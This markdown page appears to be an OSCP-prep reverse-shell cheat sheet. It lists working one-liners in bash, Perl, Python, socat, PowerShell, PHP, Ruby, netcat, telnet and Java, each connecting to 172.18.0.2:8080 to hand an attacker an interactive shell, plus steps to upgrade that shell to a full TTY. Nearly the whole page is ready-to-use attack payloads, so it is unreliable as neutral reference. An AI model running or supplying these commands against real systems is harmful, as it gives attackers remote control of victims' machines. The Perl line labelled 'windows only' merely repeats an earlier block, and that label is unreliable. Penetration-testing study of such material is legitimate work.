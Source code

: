 ```yaml
---
title: "Reverse Shell"
permalink: /oscp/reverse_shell/
excerpt: "Various tools for reverse shell's"
last_modified_at: 
toc: true
toc_sticky: true
---
```



# Intro

found [here](https://sentrywhale.com/documentation/reverse-shell)

# Bash

```bash
bash -i >& /dev/tcp/172.18.0.2/8080 0>&1
```

```bash
0<&196;exec 196<>/dev/tcp/172.18.0.2/8080; sh <&196 >&196 2>&196
```

```bash
sh -i >& /dev/udp/172.18.0.2/8080 0>&1
```

# Perl

```bash
perl -e 'use Socket;$i="172.18.0.2";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

```

```bash
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"172.18.0.2:8080");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

windows only:
```bash
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"172.18.0.2:8080");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

#  Python

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.18.0.2",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

# Socat

```bash
socat tcp-connect:172.18.0.2:8080 exec:bash -li,pty,stderr,setsid,sigint,sane
```


# Powershell

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("172.18.0.2",8080);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```


```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('172.18.0.2',8080);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

# PHP

This code assumes that the TCP connection uses file descriptor 3. This worked on my test system. If it doesn’t work, try 4, 5, 6…

```bash
php -r '$sock=fsockopen("172.18.0.2",8080);exec("/bin/sh -i <&3 >&3 2>&3");'
```

# Ruby
```bash
ruby -rsocket -e'f=TCPSocket.open("172.18.0.2",8080).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```


# Netcat
Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option. You can also check if nc.traditional is present on your target, as it always has the -e option. nc.openbsd can sometimes also have useful options to try.
```bash
nc -e /bin/sh 172.18.0.2 8080
```

if you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back using either mkfifo
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.18.0.2 8080 >/tmp/f
```

```bash
rm -f x; mknod x p && nc 172.18.0.2 8080 0<x | /bin/bash 1>x
```

mknod
```bash
rm -f x; mknod x p && nc 172.18.0.2 8080 0<x | /bin/bash 1>x
```


# FreeBSD Reverse Shell
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|telnet 172.18.0.2 8080 > /tmp/f
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i |telnet 172.18.0.2 8080 > /tmp/f
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i |nc 172.18.0.2 8080 > /tmp/f
```


# Java

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/172.18.0.2/8080;cat <&5 | while read line; do \\$line 2>&5 >&5; done"] as String[])
p.waitFor()
```


# Upgrading shells to true shell
This will allow you to make your reverse shell a "true" shell. That mean you will be able to use CTRL+C, CTRL+[any letter] etc, arrows to navigate through your shell history, and autocomplete with tabulation. Well, basicaly, something a lil' better then the casual shitty nc reverse shell that you close by error doing a CTRL+C to kill a program.

```bash
#From your netcat reverse shell
python -c 'import pty;pty.spawn("/bin/bash");' # spawn a tty shell
^Z  # this is CTRL+Z
nofix@AttackerMachine:~# stty raw -echo
nofix@AttackerMachine:~# fg   # this wont actualy print on your shell, it's ok
# If you had a proper tty shell, you should have a full stty shell now

```

Here are a few more things you can do to improve even more your reverse shell. Those could be particuliary useful if you are facing the error "Unknown terminal type" when launching programs such as nano.
```bash
reset
# if you are asked the type of term, say : vt100
export SHELL=bash
export TERM=xterm256-color
stty rows 38 columns 116 # of course you should change the rows and columns values according to your terminal size. You can get your terminal current rows and column using : stty -a

```
